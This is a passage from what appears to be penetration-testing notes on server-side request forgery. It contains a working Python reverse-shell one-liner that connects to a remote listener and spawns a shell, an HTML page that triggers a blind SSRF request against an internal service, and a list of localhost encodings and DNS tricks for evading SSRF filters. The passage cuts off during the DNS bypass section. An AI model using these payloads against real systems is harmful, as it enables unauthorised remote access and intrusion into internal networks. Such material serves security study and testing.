 #### Python reverse shell 
```bash
export RHOST="10.10.16.33";export RPORT="9999";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

#### Reverse Shell via Blind SSRF
```html
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=stiff", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```


## Time-based SSRF
We can also determine the existence of an SSRF vulnerability by observing time differences in responses. This method is also helpful for discovering internal services.

# Basic Filter Bypasses

## Obfuscation of localhost

```
- Localhost Address Block: `127.0.0.0 - 127.255.255.255`
- Shortened IP Address: `127.1`
- Prolonged IP Address: `127.000000000000000.1`
- All Zeroes: `0.0.0.0`
- Shortened All Zeroes: `0`
- Decimal Representation: `2130706433`
- Octal Representation: `0177.0000.0000.0001`
- Hex Representation: `0x7f000001`
- IPv6 loopback address: `0:0:0:0:0:0:0:1` (also `::1`)
- IPv4-mapped IPv6 loopback address: `::ffff:127.0.0.1`
```

## Bypass via DNS Resolution

We can register a domain and point it to any internal IP address; however, we can abuse some already existing ones, such as `localtest.me`, which resolves to `127.0.0.1`:

